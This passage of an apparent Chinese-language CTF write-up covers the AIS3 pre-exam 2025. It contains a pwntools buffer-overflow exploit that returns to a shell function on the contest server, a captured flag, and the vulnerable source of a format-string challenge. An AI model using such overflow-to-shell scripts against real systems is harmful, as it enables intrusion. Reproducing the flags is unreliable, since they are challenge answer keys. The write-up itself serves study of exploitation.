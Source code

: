 ![image](/images/ais3-pre-exam-2025/ais3-pre-exam-2025_image29.png)

確認一下保護機制，沒開 PIE、沒有 canary，所以可以直接 ret2func 開 shell

![image](/images/ais3-pre-exam-2025/ais3-pre-exam-2025_image30.png)

script 如下

```python
from pwn import *
r = process("./chal")
r = remote("chals1.ais3.org", 60143)
r.sendline(b"yes")
r.sendline(b"-1")
payload = b"A" * (0xa0 + 0x8) + p64(0x401256)
sleep(1)
r.sendline(payload)
r.interactive()
```

### Format Number

![image](/images/ais3-pre-exam-2025/ais3-pre-exam-2025_image31.png)

flag: `AIS3{S1d3_ch@nn3l_0n_fOrM47_strln&_!!!}`

source code:

```c
#include <stdio.h>
#include <fcntl.h>
#include <stdlib.h>
#include <time.h>
#include <ctype.h>
#include <string.h>


void check_format(char *format) {
    for (int i = 0; format[i] != '\0'; i++) {
        char c = format[i];
        if (c == '\n') {
            format[i] = '\0';
            return;
        }
        if (!isdigit(c) && !ispunct(c)) {
            printf("Error format !\n");
            exit(1);
        }
    }
}

int main() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);

    srand(time(NULL));
    int number = rand();
    int fd = open("/home/chal/flag.txt", O_RDONLY);
    char flag[0x100] = {0};
    read(fd, flag, 0xff);
    close(fd);

    char format[0x10] = {0};
    printf("What format do you want ? ");
    read(0, format, 0xf);
    check_format(format);
```